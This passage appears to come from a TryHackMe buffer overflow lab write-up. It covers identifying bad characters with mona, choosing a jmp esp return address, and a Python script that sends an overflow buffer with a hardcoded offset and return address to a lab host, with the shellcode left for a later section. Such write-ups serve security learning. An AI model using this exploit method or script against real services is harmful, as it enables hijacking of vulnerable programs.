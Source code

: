 Notice that not all of them must be bad chars, I think THM gave good explanation and what to do in that situation:

>Sometimes badchars cause the next byte to get corrupted as well, or even effect the rest of the string.

So we need to generate new bytearray.bin with next bad character:

    !mona bytearray -b "\x00\x07"

Run the programm again, remove the "\x07" from exploit.py and run it also.
Note the lowest bad char: "\x2e". Repeat process untill you get "Unmodified" status.

Finally we can state that the bad chars are: `\x00\x07\x2e\xa0`.

## **4. Finding jump point**

Type this command to list all *jmp esp* addresses:

    !mona jmp -r esp -cpb "\x00"

We need to choose one of them and put it in *retn* variable in our python script.


![](p/4.png)


We chose *0x625011af* jmp esp address. Remember to do it backwards because the system is little-endian.

```python
import socket

ip = "10.10.90.240"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xaf\x11\x50\x62"
padding = ""
payload = "" # next chapter
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
